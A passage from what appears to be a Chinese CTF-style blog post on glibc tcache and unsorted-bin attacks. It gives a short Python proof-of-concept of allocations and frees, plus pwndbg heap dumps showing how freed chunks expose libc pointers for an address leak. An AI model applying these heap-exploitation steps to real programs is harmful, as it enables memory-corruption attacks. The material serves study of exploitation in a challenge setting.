 我们简单的做个unsort_bin_attack尝试把这个地址写入到chunk上

```python
#poc
new(0x500,'aaaaa')
new(0x10,'bbbb')
free(1)
free(0)
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x55763fe59000      0x0                 0x250                Used                None              None
0x55763fe59250      0x0                 0x510                Freed     0x7f74dac85c78    0x7f74dac85c78
0x55763fe59760      0x510               0x20                 Used                None              None
pwndbg> x/8x 0x55763fe59250
0x55763fe59250:	0x0000000000000000	0x0000000000000511
0x55763fe59260:	0x00007f74dac85c78	0x00007f74dac85c78 <==
0x55763fe59270:	0x0000000000000000	0x0000000000000000
0x55763fe59280:	0xdadadadadadadada	0xdadadadadadadada
```

有了这些条件后我们便可以去泄露libc了，我们用图演示下流程

![1542258403288](https://raw.githubusercontent.com/Nepire/Nepire.github.io/master/_posts/%E6%8A%95%E7%A8%BF__%E5%9C%A8DEBUG%E4%B8%AD%E5%AD%A6%E4%B9%A0tcache%E6%9C%BA%E5%88%B6.assets/1542258403288.png)

```bash
#free before
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x55a2d6e3a000      0x0                 0x250                Used                None              None
0x55a2d6e3a250      0x0                 0x510                Freed     0x7fba63b37c78    0x7fba63b37c78
0x55a2d6e3a760      0x510               0x30                 Freed 0x61616161616161610x6161616161616161
0x55a2d6e3a790      0x540               0x500                Used                None              None
0x55a2d6e3ac90      0x0                 0x20                 Used                None              None
pwndbg> x/8x 0x55a2d6e3a760
0x55a2d6e3a760:	0x0000000000000510	0x0000000000000030
0x55a2d6e3a770:	0x6161616161616161	0x6161616161616161
0x55a2d6e3a780:	0x6161616161616161	0x6161616161616161
0x55a2d6e3a790:	0x0000000000000540	0x0000000000000500
```